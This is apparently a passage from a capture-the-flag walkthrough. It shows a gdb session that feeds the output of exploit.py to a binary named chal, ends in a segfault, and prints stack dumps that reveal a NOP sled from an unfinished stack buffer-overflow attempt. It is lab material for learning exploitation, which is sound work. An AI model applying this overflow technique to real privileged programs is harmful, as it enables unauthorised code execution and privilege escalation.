 We don't have a successful execution yet.

```bash
thrasivoulos@Sneaky:/tmp$ gdb /usr/local/bin/chal
(gdb) run $(python exploit.py)
Starting program: /usr/local/bin/chal $(python exploit.py)

Program received signal SIGSEGV, Segmentation fault.
0x00bffff5 in ?? ()
(gdb) x/100x $esp
0xbffff570:     0x00000002      0xbffff604      0xbffff610      0xb7feccca
0xbffff580:     0x00000002      0xbffff604      0xbffff5a4      0x0804a014
0xbffff590:     0x0804821c      0xb7fce000      0x00000000      0x00000000
0xbffff5a0:     0x00000000      0x1982ff9b      0x211d7b8b      0x00000000
0xbffff5b0:     0x00000000      0x00000000      0x00000002      0x08048320
0xbffff5c0:     0x00000000      0xb7ff24c0      0xb7e3ba09      0xb7fff000
0xbffff5d0:     0x00000002      0x08048320      0x00000000      0x08048341
0xbffff5e0:     0x0804841d      0x00000002      0xbffff604      0x08048450
0xbffff5f0:     0x080484c0      0xb7fed160      0xbffff5fc      0x0000001c
0xbffff600:     0x00000002      0xbffff729      0xbffff73d      0x00000000
0xbffff610:     0xbffff8ab      0xbffff8bc      0xbffff8cc      0xbffff8d8
0xbffff620:     0xbffff8fe      0xbffff911      0xbffff923      0xbffffe44
0xbffff630:     0xbffffe50      0xbffffeae      0xbffffeca      0xbffffed9
0xbffff640:     0xbffffef0      0xbfffff01      0xbfffff0a      0xbfffff22
0xbffff650:     0xbfffff2a      0xbfffff3f      0xbfffff87      0xbfffffa7
0xbffff660:     0xbfffffc6      0x00000000      0x00000020      0xb7fdccf0
0xbffff670:     0x00000021      0xb7fdc000      0x00000010      0x078bfbff
0xbffff680:     0x00000006      0x00001000      0x00000011      0x00000064
0xbffff690:     0x00000003      0x08048034      0x00000004      0x00000020
0xbffff6a0:     0x00000005      0x00000009      0x00000007      0xb7fde000
0xbffff6b0:     0x00000008      0x00000000      0x00000009      0x08048320
0xbffff6c0:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xbffff6d0:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
0xbffff6e0:     0x00000017      0x00000001      0x00000019      0xbffff70b
0xbffff6f0:     0x0000001f      0xbfffffe8      0x0000000f      0xbffff71b
(gdb) x/100x $esp-500
0xbffff37c:     0xb7fd9b48      0x00000001      0x00000001      0x00000000
0xbffff38c:     0xb7fe90ab      0xb7fffaf0      0xb7fd9e08      0xbffff3b4
0xbffff39c:     0x0804a00c      0x0804821c      0x080481dc      0x00000000
0xbffff3ac:     0x00000000      0xb7fff55c      0xb7e26534      0xbffff438
0xbffff3bc:     0x00000000      0xb7ff756c      0xb7fce000      0x00000000
0xbffff3cc:     0x00000000      0xbffff568      0xb7ff24c0      0xbffff594
0xbffff3dc:     0xb7ea6a30      0xbffff402      0x00000000      0x00000000
0xbffff3ec:     0x08048441      0xbffff402      0xbffff73d      0x0804821d
0xbffff3fc:     0xb7fffc24      0x909018fc      0x90909090      0x90909090
0xbffff40c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff41c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff42c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff43c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff44c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff45c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff46c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff47c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff48c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff49c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4bc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4cc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4dc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4ec:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4fc:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
0xbffff50c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff51c:     0x90909090      0x90909090      0x90909090      0x90909090
```
